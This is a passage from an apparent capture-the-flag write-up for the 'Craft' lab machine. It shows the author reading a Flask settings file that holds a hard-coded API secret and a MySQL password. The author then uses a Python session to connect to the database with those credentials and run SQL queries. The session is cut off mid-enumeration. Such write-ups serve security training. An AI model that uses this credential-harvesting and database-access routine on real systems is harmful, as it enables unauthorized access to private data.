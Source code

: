The credentials were stored in `craft_api/settings.py`, so I listed that file’s contents:

{% highlight python %}
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False

{% endhighlight %}

After that, I connected to the database to see if there are any credentials I could use:

{% highlight bash %}
/opt/app # ^[[50;12Rpython
python
Python 3.6.8 (default, Feb  6 2019, 01:56:13) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pymysql
import pymysql
>>> from craft_api import settings
from craft_api import settings
>>> connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
...                              user=settings.MYSQL_DATABASE_USER,
...                              password=settings.MYSQL_DATABASE_PASSWORD,
...                              db=settings.MYSQL_DATABASE_DB,
...                              cursorclass=pymysql.cursors.DictCursor)
>>> 

>>> def exec_sql(sql):
        cursor = connection.cursor()
        cursor.execute(sql)
        #result = cursor.fetchone()
        result = cursor.fetchall()
        print(result)def exec_sql(sql):
...         cursor = connection.cursor()
...         cursor.execute(sql)
...         #result = cursor.fetchone()
...         result = cursor.fetchall()
... 
        print(result)
... 

>>> exec_sql("SHOW DATABASES;")